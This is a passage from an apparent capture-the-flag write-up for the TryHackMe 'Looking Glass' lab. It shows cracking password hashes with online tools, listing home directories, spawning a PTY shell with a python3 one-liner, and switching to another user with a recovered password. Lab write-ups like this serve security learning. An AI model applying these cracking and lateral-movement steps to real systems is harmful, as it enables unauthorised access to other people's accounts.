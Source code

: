 So there are totally 8 lines but only 5 hashes have been cracked. I have to use another web-tool [CrackStation](https://crackstation.net/) to crack each of them. However, the last one is not a hash-type string → I use [CyberChef](https://gchq.github.io/CyberChef) to automatically crack it:

![Untitled](/assets/Looking%20Glass%20images/Untitled%204.png)

```
the password is [REDACTED]
```

I use `ls -l` with the `/home/` directory and explore these users:

```
$ ls -l /home/
total 24
drwx--x--x 6 alice        alice        4096 Jul  3  2020 alice
drwx------ 2 humptydumpty humptydumpty 4096 Jul  3  2020 humptydumpty
drwxrwxrwx 5 jabberwock   jabberwock   4096 Sep  1 07:32 jabberwock
drwx------ 5 tryhackme    tryhackme    4096 Jul  3  2020 tryhackme
drwx------ 3 tweedledee   tweedledee   4096 Jul  3  2020 tweedledee
drwx------ 2 tweedledum   tweedledum   4096 Jul  3  2020 tweedledum
```

There is a directory `humptydumpty` belongs to the user `humptydumpty` and it’s name is related to the `humptydumpty.txt` file → The previous password could be used to escalate privilege to this user:

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
tweedledum@looking-glass:~$ su humptydumpty
su humptydumpty
Password: [REDACTED]

humptydumpty@looking-glass:/home/tweedledum$ id
id
uid=1004(humptydumpty) gid=1004(humptydumpty) groups=1004(humptydumpty)
```

### Fourth user

Review the `/home/` directory and notice at the `alice` directory with an unusual set permissions `x`:
